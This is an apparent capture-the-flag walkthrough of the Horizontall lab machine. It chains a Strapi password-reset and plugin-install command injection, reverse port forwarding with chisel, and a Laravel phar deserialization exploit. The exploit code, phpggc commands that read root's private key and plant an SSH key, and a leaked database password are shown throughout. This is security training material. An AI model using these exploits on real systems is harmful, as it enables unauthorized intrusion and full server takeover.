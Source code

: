 # Horizontall Machine (10.10.11.105)

![Screenshot from 2022-02-09 15-51-45](https://user-images.githubusercontent.com/79413473/153178656-e2e02f73-4595-40c5-bec5-9b972891ec0c.png)

## Recon:
+ Port scan:
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  
+ Add **Horizontall.htb** to hosts file also run some vhost fuzzing on it as there is nothing much on main domain.
```
ffuf -u http://horizontall.htb/ -w ~/wordlist/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.horizontall.htb" -fc 301
```
+ Found *www* & **api-prod**. Add them to hosts file and api-prod.horizontall.htb gives welcome message
![Screenshot from 2022-02-09 16-13-34](https://user-images.githubusercontent.com/79413473/153182217-2a3b0ec2-ccf7-42e1-8d5a-5afdc407607b.png)

## Foothold: Exploiting strapi CVE
+ Running ffuf we get */admin* which redirect to login panel, looking back in burp you will see a request when accessing */admin* which reveals vulnerable strapi version
![Screenshot from 2022-02-10 19-49-36](https://user-images.githubusercontent.com/79413473/153426416-30960267-7072-4212-9b6a-055d5d534b59.png)
+ Google this strapi *version* number and you will get a [exploitdb](https://www.exploit-db.com/exploits/50239) which have a Unauthenticated RCE by chaining two CVEs. First reset admin password then execute code on machine by installing plugin.
```
 def password_reset():
 41     global url, jwt
 42     session = requests.session()
 43     params = {"code" : {"$gt":0},
 44             "password" : "SuperStrongPassword1",
 45             "passwordConfirmation" : "SuperStrongPassword1"
 46             }
 47     output = session.post(f"{url}/admin/auth/reset-password", json = params).text
 48     response = json.loads(output)
 49     jwt = response["jwt"]
 50     username = response["user"]["username"]
 51     email = response["user"]["email"]
```
Anyone can change admin' s password then it loads admin's jwt in response and use that, you can also login by **admin:SuperStrongPassword1** in browser

```
 def code_exec(cmd):
 59     global jwt, url
 60     print("[+] Triggering Remote code executin\n[*] Rember this is a blind RCE don't expect to see output")
 61     headers = {"Authorization" : f"Bearer {jwt}"}
 62     data = {"plugin" : f"documentation && $({cmd})",
 63             "port" : "1337"}
 64     out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
 65     print(out.text)
```
This part here send a post request to */plugin/install* with our payload in plugin field & port number doesn't matter somehow here, you can even remove that field.You will have a blind RCE. Let's get a shell from here as **strapi** user

![Screenshot from 2022-02-10 20-30-31](https://user-images.githubusercontent.com/79413473/153434762-e13e758f-a386-4f26-b08a-a35dcc9179c4.png)


## Lateral Movement: Accessing laravel application through port forwarding
+ There is a **developer** user on machine, where *user* flag is world redable in home directory of him. We can enumerate a little bit find a **database.json** file in */opt/strapi/myapi/config/environments/development* directory .
```
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
+ we can use this to login into mysql server as developer `mysql -u developer -p` but nothing interesting is there in database. Also it could have been an easy password reuse vulnerability but it wasn't.
+ You can't login as developer through this password. Let's enumerate a little bit more `ss -lntp` 

![Screenshot from 2022-02-10 20-42-37](https://user-images.githubusercontent.com/79413473/153436866-3bff1277-4f15-48a6-9321-be652eff8573.png)

+ Here Port 80 is normal website, and port 1337 is strapi vhost. `cat etc/nginx/sites-enabled/horizontall.htb`

```
server {
    # server block for 'horizontall.htb' domain
    listen 80;
    listen [::]:80;
    server_name horizontall.htb www.horizontall.htb;
    .....
}

server {
     listen [::]:80;
     listen 80;

     server_name api-prod.horizontall.htb;

     location / {
          proxy_pass http://localhost:1337; 
          ...
    }
}
```
+ Other ports are ssh and sql, but PORT 8000 is unnknown , curl it & you will find it's running **Laravel v8 (PHP v7.4.18)** .
+ Now in order to access this new port either we can use ssh-port forwarding through strapi user, creating .ssh dir in /opt/strapi as that's what it's hoem directory is, or you can use chisel to forward port.

![Screenshot from 2022-02-10 20-41-28](https://user-images.githubusercontent.com/79413473/153438654-7ec151e9-c260-4963-957f-65571b024aab.png)

+  As i have done ssh port forwarding many times but chisel never so for now i will now use chisel and googling chisel we get [0xdf blog](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html) explaining chisel. [Chisel](https://github.com/jpillora/chisel) basically works on client server protocol. You make your attacker machine server and through victim machine you connect to this server as client and tells which host & port to forward to which host & port. 
+ It has same syntax as ssh port forwarding, and i undertand it as **[Port_You_want_Listen_on_Your_Machine]:[Localhost_on_victim_machine]:[port_which is_gonna_be_forwarded].** e.g
1. 8000:127.0.0.1:8000 will forward port 8000 on 127.0.0.1 host and i can access that on port 8000 on my machine
2. 8002:127.0.0.1:8000 port 8000 is forwarded and i can access it on port 8001 on my machine.
3. 8002:127.0.0.1:8084 port 8084 is forwarded and i can access it on 8002 on my machine.

again this is my notion of understanding of things i recommned watching ippsec and 0xdf.
+ `./chisel server -p 8084 --reverse` run this on attcker machine & `./chisel client 10.10.14.107:8084 R:8001:127.0.0.1:8000` on victim machine this will connect back to you and you can access local port 8000 website on port 8001 on your machine

![Screenshot from 2022-02-10 21-17-21](https://user-images.githubusercontent.com/79413473/153443727-f4ffefd4-e4de-4871-8fac-35d19522a10c.png)

![Screenshot from 2022-02-10 21-17-34](https://user-images.githubusercontent.com/79413473/153443770-8620adb0-9c6c-4a82-baa1-36f4b7247baf.png)

## Privilege Escaltion: CVE-2021-3129 phar deserilization vulnerability

+ As we can access laravel website now, but there is nothing much to access here but googling **Laravel v8 (PHP v7.4.18)** thorows a laravel debug mode rce  CVE-2021-3129. You can read more about it in detail [here](https://www.ambionics.io/blog/laravel-debug-rce). I used this [exploit](https://github.com/ambionics/laravel-exploits) tool to gain access. 
+ In this CVE application was runing into debug mode and was vulnerbale to phar deserilization attack. We could inject arbitrary content into logs and larvael.log files were converted to phar file and then serliazed code in log file is executed through **phar://** wrapper. You can spend some time understanding exploit chain
+ Let's create a phar file first
 `php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id ` to run **id** command. It uses php gadget chain to create phar file. You can get phpgcc [here](https://github.com/ambionics/phpggc). 
+ Now we will runt the exploit by supplying url & phar file location
  `python3 laravel-ignition-rce.py http://127.0.0.1:8001/ /tmp/exploit.phar`
  
![Screenshot from 2022-02-10 22-16-35](https://user-images.githubusercontent.com/79413473/153455350-c40b5d45-f632-4461-855d-08c072c203ee.png)

wow we are running as root already. Let's read root ssh-keys and get login on machine.
`php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /root/.ssh/id_rsa"` then run exploit script.

![Screenshot from 2022-02-10 22-20-24](https://user-images.githubusercontent.com/79413473/153456049-f4e4e126-b788-42ba-97b9-a33117e55d2d.png)

Looks like we can't read big files or there is no .ssh directory maybe, i could read root flag. Let's add our ssh-keys on machine.
```
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
total 68
drwx------  7 root root  4096 Feb 10 16:53 .
drwxr-xr-x 24 root root  4096 Aug 23 11:29 ..
lrwxrwxrwx  1 root root     9 Aug  2  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  3145 Jun  1  2021 .bashrc
-rwxr-xr-x  1 root root   185 May 28  2021 boot.sh
drwx------  2 root root  4096 Jun  3  2021 .cache
drwx------  3 root root  4096 Jun  3  2021 .gnupg
drwxr-xr-x  3 root root  4096 May 25  2021 .local
-rw-------  1 root root   550 Aug  2  2021 .mysql_history
-rw-r--r--  1 root root     6 Feb 10 16:53 pid
drwxr-xr-x  5 root root  4096 Jul 29  2021 .pm2
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root   384 Jul 29  2021 restart.sh
-r--------  1 root root    33 Feb 10 05:22 root.txt
drwx------  2 root root  4096 May 25  2021 .ssh
-rw-rw-rw-  1 root root 12069 Aug  3  2021 .viminfo
--------------------------
+ Logs cleared
``` 
ssh directory exists, let's add keys
```
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "echo 'your id_rsa.pub key' > /root/.ssh/authorized_keys"
```
+ Now login as root `ssh -i id_rsa root@horizontall.htb` 

![Screenshot from 2022-02-10 22-29-40](https://user-images.githubusercontent.com/79413473/153457828-72ae9fc1-aa89-44b5-acb4-94ab0dc2fc8d.png)

And we have successfully rooted the machine.







